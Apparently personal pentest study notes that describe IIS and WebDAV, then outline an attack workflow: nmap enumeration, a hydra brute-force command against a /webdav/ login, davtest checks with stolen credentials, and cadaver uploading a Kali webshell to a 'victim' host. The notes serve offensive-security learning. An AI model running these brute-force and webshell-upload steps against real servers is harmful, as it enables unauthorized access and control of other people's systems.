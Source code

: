 IIS (internet information services ) is proprietary microsoft web server. Functions the same as Apache or NGINx but the advantage is that administrators have a GUI to manage the sites hosted on IIS.

Can host sites developed on aspx or PHP. Typically configured to run on ports 80 and 443

.asp
.aspx
.config
.php

**webdav**

set of extension to HTTP protocol that allows users to manage files on web servers. Like a file server for collaborative authoring. Runs on otp of IIS.

Credentials must be provided to authenticate (user name password identity). (sometimes not configured)

**webdav exploitation**

will involve determining if webdav has been configured to run (enumeration) then we can brute force the webdav auth form to establish a foothold (by uploading a malicious .asp payload) 

We will be working with tools that automate this. 

- davtest (enumeration)
- cadaver (exploitation)

**nmap script**

--script=http-enum

**hydra**

hydra -L usernamelist.txt -P passwordlist.txt ip.addr http-get /webdav/

**once credentialed run test with davtest**

davtest -auth username:password -url http://victim.com

**Cadaver**

cadaver http://ip.addr

* enter credentials *

Then you get a shell emulator

Kali keeps webshells under /usr/share/webshells

put /path/to/webshell

This provides you with a webshell that you can interact with through the web browser.


